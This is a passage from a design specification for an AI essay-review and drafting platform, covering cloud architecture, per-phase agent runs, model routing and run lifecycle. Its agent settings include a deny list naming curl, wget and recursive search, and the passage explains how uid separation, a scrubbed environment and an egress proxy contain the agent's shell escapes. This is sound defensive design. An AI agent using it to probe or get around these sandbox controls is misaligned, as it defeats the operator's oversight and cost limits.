**The argument graph (B3) — deliberately absent.** No `argument_map` artifact kind, table, or UI ships in MVP or 1.x (REQ-OBJ-15). The literature fetched in round 2 [design/15 §3]: human agreement on argument structure tops out at κ ≈ .52–.74 in thesis-driven school genres and **κ = 0.56 on editorials**, with no reliably annotated corpus of professional essays at all; end-to-end relation extraction has reached **F1 ≈ 61 on the field's easiest corpus** after nine years (≈ 34 on user comments; 97% of cross-dataset transfers fall below the in-domain mean), with attack/objection edges — exactly what an editorial product needs — the weakest class everywhere; and no controlled study shows writer benefit from extracted graphs. At those rates roughly one edge in three is wrong or contestable, and a confidently rendered wrong graph is anti-trust in a product whose posture is "every finding verified, every URL fetched" — the graph *looks* like data. The sanctioned path is a **v2 falsifiable spike** gated on §18's corpus existing: an `argument-map.json` sidecar (REQ-SPEC-12 machinery, no new table) rendered as a read-only indented-outline dossier tab, graduated only if all three criteria pass — relation-level κ ≥ 0.6 against adjudicated professional annotation (reported per edge type), map-informed reviews surfacing ≥ 1 adjudicated-material finding per 2 essays that the standard dossier missed, and ≥ 70% blinded-author recognition — with binding kill criteria (attack-edge precision < 0.5, lift < 0.5/2 essays, or recognition < 50% ⇒ never build the object in any phase) quoted in the spike protocol before any run is paid for (§17 Later). The substrate accrues on purpose under features that stand alone — anchors, `claim.sources[]`, reverse outline, steelman/vulnerability map — and every structural sidecar must stay joinable by §11.3 `Anchor` verbatim (REQ-OBJ-16).

**Evidence vocabulary (B4).** The `ClaimVerdict` vocabulary is **frozen** as the claim-level judgment set — seven enforced values against the critique's four unenforced labels, splitting "could not check" from "checked, found nothing" as reviewers need; any future change is a protocol version bump, never a rename-in-place (REQ-OBJ-17). The two vocabularies live at different levels — the critique's labels are per-source *edges*, the spec's are per-claim *judgments* — and the honest v0.2 deficit was arity, not vocabulary: a claim checked against one supporting and one contradicting source flattened to a single verdict plus prose. `claim_sources[]` stance edges fix that (REQ-OBJ-18): multi-source checks stop losing information, REQ-VIS-9 extends mechanically to the whole evidence set, §18 gains a deterministic evidence-handling scorer ("did the review find the contradicting source?"), and the B3 spike's evidence substrate is acquired for free — the skill already fetches these URLs; the change is emitting rather than flattening them, inside the REQ-ARCH-5 sidecar budget. `claim.kind` (REQ-OBJ-19) makes the fact-check phase's implicit checkability decision a field: Quick's 5-claim cap spends only on checkable kinds ('factual', 'statistical', 'quotation'), and non-checkable kinds render "interpretive — not a matter of verification", never a confusing `unverifiable`. Graded `confidence` is **rejected**: numeric confidence atop seven calibrated labels invites false precision and contradicts the no-aggregate-scores philosophy (REQ-IDE-30); Tier 1–3 already carries prioritization.

---

## 12. Execution architecture and the run model

> **⚑ Amendment — 2026-09-02: cloud provider AWS → GCP, and inference → the direct Anthropic API.**
> The ratified v1.0 "AWS-first" decision (Q-3) is superseded: the operator could not stand up an AWS
> account, and analysis showed the load-bearing AWS tie was never generic compute but the *inference
> channel* ("Claude Platform on AWS" = Anthropic's first-party API with Marketplace billing and the
> server web tools). GCP's re-hosted Claude (Vertex AI), like Bedrock, lacks those web tools — so the
> fix is to **source inference from the direct Anthropic API** (`api.anthropic.com`, platform-billed,
> key in Secret Manager, proxy-injected), which is cloud-independent and also **collapses the M15
> auth spike (H1)** — there is no SigV4/Marketplace path. Compute moves to GCP. §12 and §13 below are
> updated to the new stack; where older decision matrices/appendices still name an AWS service, read it
> through this mapping (the architecture is authoritative, the historical rationale is left as record):
>
> | AWS (v1.0) | GCP (from 2026-09-02) | Notes |
> |---|---|---|
> | ECS Fargate (web/api/worker/collab/fetcher) | **Cloud Run** | stateless services |
> | Fargate task — run-task sandbox | **GKE Standard** (Job per run) | needs `CAP_SYS_ADMIN` for the §12.6 mount-namespace sandbox — Cloud Run/Autopilot can't grant it |
> | Fargate task — convert/export | **Cloud Run Jobs** | batch, no privileges |
> | Aurora Serverless v2 | **AlloyDB for PostgreSQL** | Postgres + RLS unchanged (Cloud SQL is the simpler swap) |
> | S3 | **GCS** | artifacts, uploads, SessionStore |
> | CloudFront + ALB | **Cloud CDN + HTTPS LB** | edge/static |
> | Secrets Manager / SSM | **Secret Manager** | + Cloud KMS for BYO keys |
> | task role + STS + SigV4 | **service account + Workload Identity** | SigV4 removed |
> | SES | **Resend** | no first-party GCP email (Postmark is the swap) |
> | SST v3 | **Pulumi (TypeScript)** | SST is AWS-only |
> | ECS rolling deploy / `ecs:RunTask` | **Cloud Run/GKE rolling / GKE Job** | provisioning |
> | CloudWatch | **Cloud Operations** (Trace/Logging/Monitoring) | OTel target |
> | Bedrock (1.x non-Anthropic) | **Vertex AI** (1.x non-Anthropic) | neither exposes the web tools |
> | Claude Platform on AWS (Marketplace) | **direct Anthropic API** (platform-billed) | the inference channel; H1 collapses |
> | Textract | **Cloud Document AI** | scanned-PDF OCR |
> | ElastiCache Redis | **Memorystore Redis** | pub/sub, Yjs scaling |
> | us-east-1 | **us-central1** | single region at MVP |
>
> pg-boss (in Postgres), Expo Push, Stripe, Better Auth (self-hosted), and the whole boundary/uid model
> are unchanged. Recorded in the manifest's § Spec amendments applied and in DEFERRALS (the SST→Pulumi
> IaC rewrite lands on a P0.01 re-run once the GCP project exists).

### 12.1 Reference architecture



| Service | Package | Runtime | Owns | Notes |
|---|---|---|---|---|
| **web** | `apps/web` | React Router framework-mode SSR, Node 22, Cloud Run ≥2 | none | marketing routes pre-rendered to GCS; IDE routes SSR the shell then hydrate |
| **api** | `apps/api` | Hono, Cloud Run ≥2 | Postgres, Redis | REST + SSE, Better Auth, Stripe webhooks (raw-body signature, CSRF-exempt), signed GCS URLs, gate resolution, run creation, internal run API |
| **worker** | `apps/worker` | pg-boss consumers, Cloud Run ≥2 | Postgres | queues `run.start`, `run.resume`, `run.cancel`, `run.reap` (cron 1 min), `export.job`, `ingest.job`, `sync.job`, `mail.send`, `notify.*`, `usage.reconcile` (nightly), `figure.render`, `gate:<id>` expiry |
| **run-task** | `apps/run-task` | Agent SDK (TS) image; one **GKE Job pod** per run, 1 vCPU/2 GiB (2/4 for Draft > 8k words); GKE (not Cloud Run) because the input-scoped mount namespace needs `CAP_SYS_ADMIN`; **two uids** — `harness` (orchestrator client, hooks, token) and `agent` (the SDK process and every tool the model runs) | ephemeral `/work`; SessionStore → GCS | exits at gates and phase failures; image digest pinned per run; a small **warm pool** of idle pods claims `run.start` to meet the start SLO (review 13 F29) |
| **egress-proxy** | `apps/egress-proxy` | TypeScript forward proxy (undici), Cloud Run ≥2 | provider keys; **the usage meter of record** | the only route out of the sandbox subnet; presents the provider key only for requests bearing a valid **per-run proxy credential** against that run's orchestrator-issued allowlist; rates every response's `usage` block; enforces the run cap (REQ-SPEC-11) |
| **fetcher** | `apps/fetcher` | Node, Cloud Run | GCS quarantine (bytes only) | SSRF rules; the only arbitrary-egress component; **no parsers**; platform sync adapters; in-run "read this link" (review 13 F41) |
| **convert** | `apps/convert` | Cloud Run Job per batch, **no network, no DB**, memory cap, decompression-ratio limit | reads quarantine, writes canonical markdown to GCS | HTML/PDF/docx/epub → Rhema Markdown; the conversion preview of §5.3; reuses the export container's shape |
| **export** | `apps/export` | pandoc 3.10 + typst container, Cloud Run Job per job | GCS | md → txt/html/docx/odt/epub/pdf/latex/rtf; Google Docs via docx → `drive.file` |
| **figure-renderer** | `packages/figures` in worker | pure-TS Vega-Lite + beautiful-mermaid | GCS `figures/<id>/` | no browser |
| **collab** | `apps/collab` | Hocuspocus, Cloud Run ≥2 | Redis, Postgres, GCS restore points | four-layer autosave; materializes markdown on debounce; block-patch service (ledger M17) |
| **measure** | `packages/measure` | library in run-task (hook-exposed tool) and api | — | deterministic prose metrics (ledger M13) |

> **⚑ Supersession note — 2026-10-10 (round-4 SPA build, SPAREC.2): the `web` row's renderer
> description is superseded in practice.** `apps/web` landed as a **Hono document server**
> (SSR + attribute-driven esbuild islands — ADR-012, as-built since P1.01), never React Router
> framework mode and never hydration ("SSR the shell then hydrate" describes the rejected
> design). As of round 4 the authenticated surfaces on the same URLs serve the Vite-built
> TanStack Router + Query SPA — `docs/frontend-spa-spec.md` **v1.1** is the canonical renderer
> contract (ADR-106); the surviving islands are `page.js`/`ide.js`/`landing.js` (ADR-107);
> no runtime flag machinery survives — renderer choice is structural (forced-SSR Page family:
> phone/showcase — ADR-108). The mermaid node's `ECS`/`React Router SSR` labels read through
> this note + the 2026-09-02 AWS→GCP banner.
>
> **⚑ Supersession addendum — 2026-10-17 (round-5, R5REC.2):** intra-app navigation on the
> SPA documents is now genuinely client-side — the round-4 chain shipped zero interception
> (every `<a href>` was a document nav — the "MPA-mode" defect, ruled a defect at
> Q-scope-1, frontend-spa-spec §14.18). One delegated bubble-phase `click` listener on
> `document` (installed by `mountSpa`, never the router factory) routes in-tree clicks to
> `router.navigate` after an ordered guard pipeline — modifier/secondary/contenteditable/
> `target`/`download`/`data-spa-native`/foreign-origin/hash-only/out-of-tree/`reloadDocument`-stub
> activations stay native or document-navigate (`ADR-110`; frontend-spa-spec §14.19).
> `SsrHandoff` is replace-mode (`replaceDocument` — the committed transient history slot is
> eaten, closing the Back-loop). The settle contract gained `data-nav-count` (every served
> document stamps `"0"`; committed in-document transitions tick it — a document load's
> reset is the mechanism detector) and pending semantics on `data-mounted` (removed while
> a navigation is unresolved).

Everything is a container in one AWS account; no Lambda in the request path; Lambda only for glue. **REQ-ARCH-1.** Every service is a container from the monorepo deployed by SST to ECS Fargate; only `egress-proxy` holds provider keys. **REQ-ARCH-2.** The sandbox subnet permits egress only to the proxy; no NAT or internet gateway. **REQ-ARCH-3.** `api` is the only writer to `runs`, `gates` and the credit ledger from outside the sandbox; `run-task` writes steps, events and artifacts through a run-scoped token held by the `harness` uid, never a database connection; usage rows of record come from the proxy. **REQ-ARCH-4 (amended).** `fetcher` is the single component that opens arbitrary outbound HTTP and it parses nothing; `convert` parses and has no network (review 13 F41). Q-3's "AWS-first" is satisfied by *billing and hosting*: inference is Anthropic-operated behind Marketplace billing, and the Agent SDK is a proprietary dependency the whole run model depends on — the largest control concession in the design, recorded as such in `LICENSES.md` (review 13 F49; tension C8, §16.2).

### 12.2 Skill porting: the phase-split hybrid

Three options were weighed: run each whole skill in one `query()` (gates awkward, no phase boundaries), compile phases into our own prompts (throws away the tested regimen), or the **hybrid** — skill text verbatim, executed **one phase per `query()`**, completion detected by the phase's result file and artifact predicates [design/5 §2; research/7 §6]. The hybrid works because files are the skills' only inter-phase interface by design. The upstream changes are all harness-neutral inputs and outputs safe for the public repo: a `phase` input in each `SKILL.md` (`"N"` = run only phase N then stop; `"N+"` = from N to the end); `scope` (ledger G22); `changed_since` for human-revised reviews; `prior_review` (the explicit path of the review being answered — review 13 F27, closing §16.3 #16); `resume_from` (1.x, section-granular resume); `sidecar: true` (emit the structured-output twins of §11.1); and a `.rhema/phase-result.json` written at the end of every phase.

**REQ-ARCH-5 (amended).** Ported skills differ from upstream only by the `phase` / `scope` / `changed_since` / `prior_review` / `resume_from` / `sidecar` inputs, the `phase-result.json` output, the Q-11 edits, and the persona-resolution edit; CI diffs `packages/protocols/skills/*` against a pinned upstream commit. **REQ-SPEC-22 (drift is a fork, not a diff; review 13 F26).** A **manifest ↔ SKILL.md contract test** extracts phase headings, artifact filenames, opt-out flag names and sidecar names from each `SKILL.md` and asserts equality with the manifest, the path→kind map, the parsers and the serializers; the trio (skill sha, manifest, parsers/serializers) is versioned as one `protocols_version`, recorded on every run; a run resumes only on the `protocols_version` (and image digest) it started with. **REQ-ARCH-8 (Q-11 at port time).** `bootstrap-persona` drops the `usage=study` default and its report, the quotation-bound `positions.md` rule for non-self modes, and "supplying `docs/` does not enlarge what the mode permits"; `Mode` is stored as `personas.mode` and never alters behavior; legal exposure is stated once in the ToS/AUP.

**Phase manifests** (`packages/protocols/manifests/<workflow>.ts`; private) declare per workflow the ordered phases with `key, index, label, skillPhase, seat, artifacts[], predicates[], sidecars[], gateAfter?, optional?: RigorFlag, phaseClass: research|judge|generate|package, parallelGroup?, maxIterations?, budgetShare, backEdges?: PhaseKey[], allowsSubagents: boolean`. **Ordering:** the orchestrator runs P phases sequentially in **the skill's own fallback order** — Review is 0, 4, 1, 2, 5, 3, 6 (intake, craft, verification, discourse, second read, argument, letter) — and the manifest's `index` *is* that order; the v1.0 text listed the manifest in a different order than the fallback and the two now agree (review 13 F17). **MVP fan-out is intra-query:** verification slices, close reads and research fan out as SDK subagents *inside* one `query()` and are invisible to the orchestrator, whose step graph stays linear until Run rounds and parallel variants ship (the Temporal trigger of §12.9; review 13 F10). **Back-edges** (review 13 F3): a manifest declares the re-plans a phase may perform (`grounding → plan` in Draft; `revise → triage` in Revise); a phase with no declared back-edge is refused writes to plan-class files; `phase-result.json {replan: true}` makes the orchestrator count the re-plan (`runs.replans`; cap 2, REQ-WF-5) and, when the plan artifact's hash changes after an approval, **re-open Approve plan** (or auto-approve within the consented cap under *Run to completion*). Judge-class phases (intake, argument, craft, second read, fidelity audit, gap check, calibration) have `allowsSubagents: false` and the hook rejects `Agent` calls in them, so the parent Editor can never spawn its own second read; at delivery the dossier is refused if `05-second-read.md`'s `producerQueryId` is not the orchestrator-launched input-scoped query (F17). **REQ-ARCH-6.** Manifests are the only place skill structure is encoded; adding a workflow is a manifest plus its `SKILL.md`.

**REQ-RUN-1 (amended) / REQ-SPEC-13 — the completion oracle (review 13 F2).** "Artifact exists, parses, is non-empty" is not a completion test: a phase that hit `maxTurns`, `maxBudgetUsd`, a provider 529 or auto-compaction mid-way leaves a plausible partial file. A phase is complete iff **all three** hold: (a) the SDK `result` message has `subtype === 'success'` — any other subtype is incomplete regardless of files; (b) `.rhema/phase-result.json` says `{status: 'done'}` (`blocked` opens the phase's escalation card; `replan` is a back-edge); (c) every declared artifact exists and passes its **per-artifact completion predicate** from the manifest — claim ledger rows ≥ the Phase-0 claim inventory count (or an explicit "N of N checked" footer), letter has every required section, draft section count = plan section count, sidecar validates against its schema, second read is non-empty and produced by the scoped query. Otherwise `artifact_missing` / `incomplete`, retried once with the phase report as guidance, then `failed` for that step with partials kept.

| Workflow | Phases (key · label · class · gateAfter · artifact · predicate) | Estimator shape (provisional constants; credits at Base, Standard) |
|---|---|---|
| Review | `intake` Reading the piece · judge · scope card · `00-piece-brief` (thesis + inventory present) → `craft` Reading the prose · judge · `04-craft-notes` → `verification` Checking claims · research · `01-claim-ledger` (+json; rows ≥ inventory) → `discourse` Mapping the field · research · `02-discourse-report` → `second_read` Second read · judge (input-scoped) · `05-second-read` (producer check) → `argument` Weighing the argument · judge · `03-argument-notes` → `letter` Writing the letter · generate · `editors-letter` + `findings.json` + `rubric.json` (all sections; rubric 8 dims) | `a + b·words + c·claims` with a ≈ 40, b ≈ 0.012, c ≈ 24 (`cost_per_verified_claim.review.base`); discourse ≈ +90 + 0.006·words; second read ≈ +0.005·words |
| Draft | `intake` Reading the outline · judge · `00-commissioning-brief` → `voice` Binding voice · judge · `01-voice-brief` → `plan` Planning the structure · generate · gateAfter `approve_plan` · `02-structure-plan` (+json; spine ≥ 3) → `grounding` Verifying sources · research · `03-claim-ledger` (+json; back-edge → plan) → `draft` Writing · generate · `drafts/vN.md` (sections = plan sections) → `consolidation` Tightening · generate · `05-consolidation-notes` → `audit` Independent audit · judge (input-scoped; ≤3) · `06-fidelity-audit` → `delivery` Delivered · package · `vN-drafting-note` | `a + b·target_words + c·inherited_claims` with a ≈ 60, b ≈ 0.05, c ≈ 11 |
| Revise | `bootstrap` Reading the draft first · judge → `research` Checking the Editor's evidence · research · repair notes → `triage` Triage · judge · gateAfter `approve_triage` · `ledgers/vN-response-ledger` (+json; one row per finding) → `revise` Revising · generate · `drafts/v(N+1).md` (every accepted/adapted move present; back-edge → triage) → `verify` Verifying new claims · research · ledger update → `gap_analysis` Independent gap check · judge (input-scoped; ≤3) → `deliver` Delivered · package · `vN-response` | `a + b·words + c·findings + d·moves_with_research` with a ≈ 50, b ≈ 0.03, c ≈ 4, d ≈ 20 |
| Profile voice | `census` Counting the corpus · package · gateAfter `approve_sample` → `close_reading` Close reading · research (fan-out per piece; skips pieces with a persisted note) → `voice` Measuring voice · judge → `substance` Recording positions · judge → `calibration` Calibration · judge (input-scoped; hold-out allowed only after the prediction file exists) → `package` Packaged · package | Quick Voice `40 + 0.012·words`; Full Profile `120 + 0.009·words_read + 40·pieces_read + 90·holdouts` |
| Outline | `harvest` Harvesting the chat · package → `classify` Sorting claims · judge → `spine` Proposing a spine · generate → `gaps` Listing gaps · judge · gateAfter `approve_outline` (terminal) · `outline` (spine 5–12) | `20 + 0.004·thread_tokens + 6·urls_refetched` |
| Research | `plan` Planning the search · judge → `fetch` Fetching and noting · research (≤N sources) → `distill` Distilling · generate · `research_note` (+ source cards ≥ 1) | `15 + 5·sources + 0.002·fetched_tokens` |
| Fact-check | `inventory` Inventorying claims · judge → `verification` Checking claims · research · `claim_ledger` (+json; rows ≥ inventory) | `20 + 11·claims` (`cost_per_verified_claim.fact_check.base`) |
| Figure | `data` Reading the data · judge → `spec` Proposing a spec · generate (≤3 retries) → `render` Rendering · package → `caption` Captioning · generate · proposal card | `5 + 3·iterations + 2·data_rows/100` |
| Cut to length (1.x) | `reverse_outline` → `budget` · gateAfter `approve_cutlist` · `cut_list` (+json) → `cut` · `drafts/v(N+1)` (words ≤ target) → `seam` | `30 + 0.02·words` |
| Line edit · Titles · Abstract · Reverse outline · Interview me (1.x) | single- or two-phase (`read` → `propose`) with one proposal artifact each | `10 + 0.012·words`; `3 + 0.001·words`; `5 + 0.002·words`; `8 + 0.003·words`; `2 + 0.5·questions` |
| Steelman (1.x) | `restate` · optional pause → `research` · research → `essay` · generate · `steelman_essay` → `vulnerabilities` · judge · `vulnerability_map` → `adjudicate` · judge (input-scoped, optional) | `80 + 0.02·words + 8·sources` |
| Map the field (1.x) | `search` · research → `positions` · judge → `originality` · judge → `open_ground` · judge → `forecast` · judge · gateAfter `choose_thesis` | `150 + 12·sources + 30·strata` |
| Run rounds (1.x) | loop over Review + Revise manifests; `continue_rounds` between rounds; stall check | Σ inner runs + 15 per round |

Model-tier multipliers 1× / 2.2× / 4.5× and the rigor multipliers of §6.1 apply on top; the estimator is **phase-aware** (a cache write per phase and reads within it — the 75% cache-read assumption of research/10 came from single-session runs and does not carry over to the phase split; review 13 F8); every constant is replaced by the instrumented runs of §16.3 #1 before any price card is frozen.

**The `Engine` interface** (ledger G15): `startPhase(req: PhaseRequest): AsyncIterable<EngineEvent>`, `abort(reason)`, `usage()`. `AgentSdkEngine` builds `query({ prompt: "/<skill> …inputs…", options })` with `cwd`, the baked skills, `agents` from the model profile (second-reader, fidelity-auditor, gap-analyst, holdout-calibrator, researcher with per-agent tools/model/effort), hooks, `permissionMode: "dontAsk"`, fixed `allowedTools`, `disallowedTools: ["Bash(curl *)","Bash(wget *)","Bash(find *)","Bash(grep -r*)"]` — **cosmetic**: they reduce accidental attempts and audit noise; the VPC (no route), the per-run proxy credential (REQ-SPEC-11) and the uid separation (REQ-SPEC-10) are the enforcement (review 13 F18) — `maxBudgetUsd`, `maxTurns`, a **scrubbed `env`** for the model's processes (`ANTHROPIC_BASE_URL` → proxy, `CLAUDE_CODE_DISABLE_AUTO_MEMORY=1`, per-run `CLAUDE_CONFIG_DIR`; **never** `RUN_TOKEN`, `API_INTERNAL_URL` or the proxy credential), subagent depth 1, ≤5 concurrent subagents, 1-h prompt caching, OTel, an S3 `sessionStore`, an `abortController`. **REQ-ARCH-7.** The orchestrator depends only on `Engine`; a stub `ManagedAgentsEngine` passes the same event-mapper conformance suite so the second engine is a test away.

**Phase commit protocol** (REQ-RUN-2/3/4): quiesce → write-back diff against the hydration manifest, filtered by the seat's write allowlist (out-of-allowlist and immutable-path writes **dropped** and counted as `boundary.violation`) → read-only-file hash check (REQ-DATA-5) → content-addressed S3 upload → `POST /internal/runs/:id/steps/:key/commit` (idempotent on `(run_id, step_key, attempt)`; rejected with `409 stale_task` if `attempt < runs.current_attempt`) → cost reconciliation against the proxy's metered rows → one atomic transaction (insert artifacts, update step, advance phase, append events, enqueue next step or open the gate) → best-effort session mirror. Half-written drafts commit as `agents/author/drafting/vN/partial-draft.md`, never a version. The skill's manifest write is captured, parsed and discarded — the round log is derived.

### 12.3 Model routing and rigor

Routing is by **phase class**, validated against a provider capability table (REQ-ARCH-9/10). Research phases stay on Anthropic at MVP because only Anthropic exposes search + fetch + fresh-context fan-out inside the harness; inference runs on the **direct Anthropic API** (`api.anthropic.com`, platform-billed) because only Anthropic's first-party API exposes the web tools. **Vertex AI** (GCP's re-hosted Claude, exactly like Bedrock) lacks those server tools and is reserved for non-Anthropic models in 1.x. *(Amended 2026-09-02: was "Claude Platform on AWS / Marketplace billing"; the platform moved off AWS — see the §12 amendment banner.)*

| Phase class | Needs | v1 provider | Base | Balanced | Frontier |
|---|---|---|---|---|---|
| research (verification, discourse, grounding, response research, close-reading) | search + fetch + PDF + fan-out + file R/W | Anthropic only | Sonnet 5 main / Haiku 4.5 subagents | Sonnet 5 | Opus 5 |
| judge (intake, argument, craft, second read, fidelity audit, gap check, calibration) | long context + Read | Anthropic (MVP); harness-lite candidates 1.x | Sonnet 5 | Opus 5 | Fable 5 |
| generate (draft, revise, letters, voice files) | long context + Write; single context | Anthropic (MVP); 1.x candidates | Sonnet 5 | Opus 5 | Fable 5 |
| package | Read/Write | Anthropic | Sonnet 5 | Sonnet 5 | Opus 5 |
| chat turns without tools | tokens | any via `packages/harness` | Sonnet 5 | Opus 5 | Fable 5 |

Credit multipliers ≈ 1× / 2.2× / 4.5×; `effort` defaults research medium, judge high, generate high, package low. A model profile is `{tier, overrides}`; the API rejects overrides whose provider lacks the class's capabilities. Non-Anthropic providers enter only through `packages/harness` for judge/generate/chat; the routing table is data versioned with the rate table. Rigor → flags mapping is §6.5; every disabled phase appears as `phase.skipped`.

### 12.4 The run lifecycle

```mermaid
stateDiagram-v2
    [*] --> created: POST /projects/:id/runs on the sheet's Run click (idempotency_key); estimate was a stateless pre-pass (REQ-SPEC-16)
    created --> queued: sheet-launched (consent already given client-side; hold placed)
    created --> awaiting_consent: created without a sheet (mobile run-with-defaults 1.1, Assistant-prepared) → confirm_cost gate
    awaiting_consent --> queued: confirmed (hold placed)
    awaiting_consent --> cancelled: declined / 7 days
    queued --> provisioning: lock set acquired, concurrency slot free, worker claims run.start
    provisioning --> running: first heartbeat
    provisioning --> failed: RunTask fails 3×
    running --> running: phase i/n committed
    running --> waiting_gate: gateAfter → gate opened, task exits
    waiting_gate --> queued: approved / expired-proceed → run.resume
    waiting_gate --> cancelled: stop / expired-cancel
    running --> cancelling: stop requested
    cancelling --> cancelled: phase quiesced, partials committed
    running --> orphaned: heartbeat stale > 3 min
    orphaned --> queued: reaper re-enqueues run.resume (≤ 2)
    orphaned --> waiting_gate: resumes exhausted → resume_partial gate
    running --> failed: terminal error, retries exhausted; boundary/validation failure with nothing deliverable
    running --> finalizing: final phase committed
    finalizing --> completed: delivery transaction committed
    finalizing --> failed: delivery validation (cited ⇒ fetched, parse) unrecoverable
    running --> completed_partial: cap reached or step failed after ≥1 delivered artifact; resume_partial accepted
    completed --> [*]
    completed_partial --> [*]
    failed --> [*]
    cancelled --> [*]
```

Step by step (REQ-RUN-10/11/12/13; REQ-DATA-33/34):

1. **Estimate** (stateless). `POST /projects/:id/estimates {workflow, rigor, model_profile, inputs}` → input snapshot, parametric estimator + cached claim pre-pass → `{estimate, cap = ceil(1.5 × estimate), levers}`; cached in `estimate_cache` per `(draft sha, workflow, rigor, tier)`; no `runs` row (REQ-SPEC-16).
2. **Create and consent.** The sheet's Run click → `POST /projects/:id/runs {…, idempotency_key, estimate_id}`; the client-side consent step has already happened; the row is created `queued` with `hold(cap)` placed under `SELECT … FOR UPDATE` on the billing account (two tabs cannot both fit the same balance — review 13 F30); the hold pins a bucket (`holdBucket`). Runs created without a sheet land in `awaiting_consent` with a `confirm_cost` gate. Insufficient balance returns the three options and never bills. On a trial entitlement the hold is against the entitlement, not credits.
3. **Queue.** One transaction: state, `pg-boss.send('run.start', {singletonKey: run_id})`, writer lock if the workflow writes drafts (409 with `running_run_id` → "queue after"); concurrency counts queued variants as N runs (§16.3 #17 closed).
4. **Provision.** Mint a run token (JWT, 2 h; claims run, tenant, project, seat, step scope, **attempt**) and a **per-run proxy credential** bound to an orchestrator-issued allowlist (`proxy_allowlists`: the provider endpoints this run may call, its URL policy, its cap); claim a warm-pool pod or create a **GKE Job** with the pinned image digest and a **Workload-Identity service account** limited to the project and voice prefixes. **Privilege separation (REQ-SPEC-10; review 13 F11):** the task starts as uid `harness`, which receives `RUN_TOKEN`, `API_INTERNAL_URL` and the proxy credential via a file readable only by `harness`; it then launches the SDK process as uid `agent` with a scrubbed env (`RUN_ID`, `ANTHROPIC_BASE_URL=proxy` and nothing else). Hooks, the heartbeat/commit client and the audit writer run as `harness` (SDK hooks are child processes launched through a local Unix-socket daemon that holds the token; the `agent` uid cannot read the socket's credentials). The proxy accepts requests from the `agent` process only when they carry the credential the `harness`-side SDK wrapper injects per request; a shell escape (`node -e`, `/usr/bin/curl`, `python3`) has no token to present to the internal API and no credential to present to the proxy. 3 launch attempts with backoff; target p95 queued→running ≤ 45 s (subnets sized /20, GKE node capacity and vCPU quota increases requested up front, a distroless image with the SDK vendored, and the warm pool of idle pods — review 13 F29).
5. **Hydrate.** `GET /internal/runs/:id/hydration` → materialize `/work/project` and `/work/personas/<id>` per §11.5 (with `overlays[]`); heartbeat every 20 s to Redis (carrying `cancel_requested` back).
6. **Phases.** For each remaining phase: `Engine.startPhase`; stream events through the mapper to `POST /internal/runs/:id/events` (batches ≤250 or 2 s); persist every `usage.tick` as a provisional `usage_records{source:'sdk_stream'}` row so the orchestrator's Σ includes the running phase (review 13 F4); on result, evaluate the completion oracle (REQ-SPEC-13) and commit. If `gateAfter`: commit, open the gate inside the commit transaction, **exit the task**.
7. **Gates.** `POST /runs/:id/gates/:gid {decision}` writes the decision (conditional update), cancels the expiry job, serializes structured edits into overlay versions (REQ-SPEC-9), sets `queued`, enqueues `run.resume {from_step}`; resume = a fresh task with a **new attempt** and a rotated token, hydrated from committed state plus overlays, with the gate's guidance in the next `PhaseRequest.inputs`. At resume the run re-validates plan entitlements (tier, word cap, concurrency) and re-prices remaining phases under the current rate table; if the re-priced total exceeds the consented cap, a spend gate opens with the delta instead of the platform eating the difference (review 13 F31, F37).
8. **Commit** the final phase: validate, mark delivered artifacts immutable, promote `drafts/vN.md`, set `completed`; debit in a separate retried transaction (REQ-DATA-7).
9. **Reconcile cost.** The proxy's metered rows are the actual (`source:'proxy'`); SDK `modelUsage` is the cross-check; `release` the unused hold; failed/refused runs `refund` their debits; `cost.final`. Nightly reconciliation against the provider Usage & Cost API adjusts only in the user's favour and recalibrates the estimator (§14.5).
10. **Notify.** `run.completed` → in-app + email with the letter's "one thing" (or the drafting note's summary), cost actual vs estimate, and the natural next step.

The estimate, cap, rigor, model profile and input snapshot are immutable after `queued`; **the cap is enforced at the proxy** (REQ-SPEC-11: the proxy rejects with 402 when the run's Σ metered cost ≥ cap; the engine sees `budget`), with `maxBudgetUsd` per phase share in the engine and the orchestrator's Σ over committed + provisional rows as the two inner brakes (→ `resume_partial`, never a silent overrun). The residual overrun bound is **one in-flight request** (the request that crosses the cap is served and metered), and the variance reserve is sized from it. Overrun from estimator error is charged at the cap and booked to the reserve. A hold is placed before the first launch and released within 60 s of a terminal state. The internal run API (`GET hydration`, `PUT heartbeat`, `POST events`, `POST steps/:key/commit`, `POST steps/:key/fail`, `POST audit`) is authenticated by the run token held by the `harness` uid, single-run, **carries `attempt` on every call and rejects `attempt < runs.current_attempt` with `409 stale_task`**, is refreshed on heartbeat and rotated on every re-enqueue, and is revoked at terminal state (REQ-ARCH-11 amended; REQ-RUN-15 amended; ledger M14). There is no `POST fetch`: the fetch log of record is written by the proxy.

**Resumability** (REQ-RUN-14/15 amended; ledger K7): the durable unit is *phase + committed artifacts*; resume always launches a fresh task, hydrates from S3 plus overlays, optionally passes the mirrored SDK session as an optimization, and re-runs the in-flight phase as a new `attempt` (the prior attempt's partial outputs remain inspectable). The reaper (scanning Redis heartbeats) marks runs with stale heartbeats `orphaned`, stops the stale task and **waits for `ecs:StopTask` to return or a 60 s grace before launching the next attempt**, re-enqueues at most twice per step; any call — heartbeat, commit, audit, event — from an older attempt is rejected (`409 stale_task`) and the task self-terminates (review 13 F5). A run parked at any gate for **30 days** is auto-cancelled with partials kept and the hold released, after two reminders (`parkedUntil`; review 13 F31/F33). User copy: "We hit a hiccup at *Verifying claims* and resumed from the last completed phase. Nothing was lost; 3 of 7 phases were already done."

**Cancellation, retries, partials** (REQ-RUN-16): Stop sets `cancelling`; the next heartbeat returns it; `Engine.abort("cancel")`; a reduced commit keeps source notes, ledgers and complete phase artifacts; 60 s then `ecs:StopTask`. Retry by `error_class`: `infra` (≤2 with backoff), `provider_transient` (engine retry then ≤2; a provider outage banner pauses new launches ≤2 h without failing queued runs), `budget` (borrow once from remaining phases within the cap, else `resume_partial`), `artifact_missing` (once with guidance), `refusal` (→ refusal gate), `boundary` (not a failure; warning badge; >5 violations or any write to an immutable artifact quarantines the run's artifacts pending review), `stale_task` (exit). Partial results are real results: a review that finished verification and died in craft has a committed claim ledger, rendered "partial (3/7 phases)" with Resume; skipped and failed phases are distinguished. Every terminal state leaves a consistent conventions layout (a partial review directory is suffixed `-partial` until completed).

